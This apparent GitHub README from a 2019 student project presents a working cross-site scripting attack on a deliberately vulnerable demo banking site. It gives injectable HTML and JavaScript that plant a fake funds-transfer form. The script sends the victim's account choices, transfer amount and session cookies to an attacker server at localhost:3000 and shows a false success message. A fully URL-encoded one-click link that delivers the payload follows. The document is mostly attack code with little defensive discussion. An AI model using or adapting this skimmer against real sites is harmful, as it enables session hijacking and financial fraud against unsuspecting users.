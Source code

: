 # About
Cross Site Scripting attack on an already logged in user.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**
## Note:
Below is the script, execute this on any input form eg (Search, feedback, transaction form) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

Here we are getting user's money transfer information by using fake transfer form which users would not be able notice and they will transfer money to the accounts and all those transfer details are sent to the local server of the attacker.

# Execution

```javascript
<form id="tForm" name="tForm" method="post" action="doTransfer" onsubmit="return (confirminput(tForm));"><h1>Transfer Funds</h1><table width="100%" cellspacing="0" cellpadding="1" border="0"><tbody><tr><td><strong>From Account:</strong></td><td><select size="1" id="fromAccount" name="fromAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong>To Account:</strong></td><td><select size="1" id="toAccount" name="toAccount"><option value="800000">800000 Corporate</option><option value="800001">800001 Checking</option></select></td></tr><tr><td><strong> Amount to Transfer:</strong></td><td><input type="text" id="transferAmount" name="transferAmount"></td></tr><tr><td colspan="2" align="center"><input type="button" name="transfer" onclick= "showTransaction()" value="Transfer Money" id="transfer"></td></tr><tr><td colspan="2">&nbsp;</td></tr><tr><td colspan="2" align="center"><span id="_ctl0__ctl0_Content_Main_postResp" align="center"><span style="color: Red"></span></span></span></td></tr></tbody></table></form>

<script type="text/javascript">
    document.getElementsByClassName("fl")[0].children[0].textContent = "";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
    var today = new Date();
    var date = today.getFullYear()+'-'+(today.getMonth()+1)+'-'+today.getDate();
    var time = today.getHours() + ":" + today.getMinutes() + ":" + today.getSeconds();
    var dateTime = date+' '+time;
    function showTransaction()
    {
        new Image().src='http://localhost:3000/?FromAccount='+document.forms["tForm"].fromAccount.value
        +'&ToAccount='+document.forms["tForm"].toAccount.value
        +'&TransferMoney='+document.forms["tForm"].transferAmount.value+'&'+document.cookie;
        
        document.getElementById("_ctl0__ctl0_Content_Main_postResp").children[0].textContent = document.forms["tForm"].transferAmount.value
        +".0 was successfully transferred from Account "+ document.forms["tForm"].fromAccount.value+ " into Account "
        + document.forms["tForm"].toAccount.value + " at "+dateTime;
    }   
</script>
```

## Direct link to get to the fake form
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+id%3D%22tForm%22+name%3D%22tForm%22+method%3D%22post%22+action%3D%22doTransfer%22+onsubmit%3D%22return+%28confirminput%28tForm%29%29%3B%22%3E%3Ch1%3ETransfer+Funds%3C%2Fh1%3E%3Ctable+width%3D%22100%25%22+cellspacing%3D%220%22+cellpadding%3D%221%22+border%3D%220%22%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3EFrom+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22fromAccount%22+name%3D%22fromAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3ETo+Account%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cselect+size%3D%221%22+id%3D%22toAccount%22+name%3D%22toAccount%22%3E%3Coption+value%3D%22800000%22%3E800000+Corporate%3C%2Foption%3E%3Coption+value%3D%22800001%22%3E800001+Checking%3C%2Foption%3E%3C%2Fselect%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3Cstrong%3E+Amount+to+Transfer%3A%3C%2Fstrong%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22transferAmount%22+name%3D%22transferAmount%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cinput+type%3D%22button%22+name%3D%22transfer%22+onclick%3D+%22showTransaction%28%29%22+value%3D%22Transfer+Money%22+id%3D%22transfer%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22%3E%26nbsp%3B%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd+colspan%3D%222%22+align%3D%22center%22%3E%3Cspan+id%3D%22_ctl0__ctl0_Content_Main_postResp%22+align%3D%22center%22%3E%3Cspan+style%3D%22color%3A+Red%22%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Fspan%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E++%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+++++var+today+%3D+new+Date%28%29%3B+++++var+date+%3D+today.getFullYear%28%29%2B%27-%27%2B%28today.getMonth%28%29%2B1%29%2B%27-%27%2Btoday.getDate%28%29%3B+++++var+time+%3D+today.getHours%28%29+%2B+%22%3A%22+%2B+today.getMinutes%28%29+%2B+%22%3A%22+%2B+today.getSeconds%28%29%3B+++++var+dateTime+%3D+date%2B%27+%27%2Btime%3B+++++function+showTransaction%28%29+++++%7B+++++++++new+Image%28%29.src%3D%27http%3A%2F%2Flocalhost%3A3000%2F%3FFromAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.fromAccount.value+++++++++%2B%27%26ToAccount%3D%27%2Bdocument.forms%5B%22tForm%22%5D.toAccount.value+++++++++%2B%27%26TransferMoney%3D%27%2Bdocument.forms%5B%22tForm%22%5D.transferAmount.value%2B%27%26%27%2Bdocument.cookie%3B++++++++++++++++++document.getElementById%28%22_ctl0__ctl0_Content_Main_postResp%22%29.children%5B0%5D.textContent+%3D+document.forms%5B%22tForm%22%5D.transferAmount.value+++++++++%2B%22.0+was+successfully+transferred+from+Account+%22%2B+document.forms%5B%22tForm%22%5D.fromAccount.value%2B+%22+into+Account+%22+++++++++%2B+document.forms%5B%22tForm%22%5D.toAccount.value+%2B+%22+at+%22%2BdateTime%3B+++++%7D+++++%3C%2Fscript%3E">Demo Link for fake Transaction</a>

## References
* https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
* http://form.guide/web-form/submit-form-multiple-scripts.html

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019
